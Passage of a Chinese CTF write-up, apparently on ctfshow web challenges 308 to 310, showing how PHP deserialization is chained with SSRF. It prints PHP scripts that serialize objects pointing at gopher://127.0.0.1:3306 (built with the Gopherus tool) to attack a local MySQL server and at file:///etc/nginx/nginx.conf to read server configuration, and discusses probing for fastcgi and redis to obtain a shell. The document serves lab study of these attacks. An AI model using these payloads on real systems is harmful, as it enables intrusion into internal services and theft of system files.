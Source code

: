 ```php
<?php
class config{
	public $update_url = 'gopher://127.0.0.1:3306/……';
}
class dao{
	private $config;
	public function __construct(){
		$this->config=new config();
	}

}
$a=new dao();
echo base64_encode(serialize($a));
?>
```

具体的值通过gopherus生成
下载地址 `https://github.com/tarunkant/Gopherus`

```
3306端口为mysql默认端口
```

疑问：不需要mysql密码？可能是空的

![](https://img-blog.csdnimg.cn/20210413225942528.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
![](https://img-blog.csdnimg.cn/20210413225953961.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
# 309
需要拿shell，308的方法不行了,mysql 有密码了


既然mysql有密码了不能打，那想想也基本就剩redis和fastcgi了，拿dict探测一下，似乎没有redis，因此大概率就是`fastcgi`，但是到底如何确定存在fastcgi我也很迷。

看了一下羽师傅的方式，拿gopher协议的延时来判断：

先记下了，等ssrf再来理解

![](https://img-blog.csdnimg.cn/20210413230042607.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
Payload同上

---
# 310
>nginx可以通过fastcgi对接php，所以nginx的配置文件中也会有一血重要信息，此外还有端口转发等，一些重要的信息配置文件中可能都会有，

羽师傅：

9000和6379都是关着的。那我们可以试试`读下配置文件`

```php
<?php
class config{
	public $update_url = 'file:///etc/nginx/nginx.conf';
}
class dao{
	private $config;
	public function __construct(){
		$this->config=new config();
	}

}
$a=new dao();
echo base64_encode(serialize($a));
```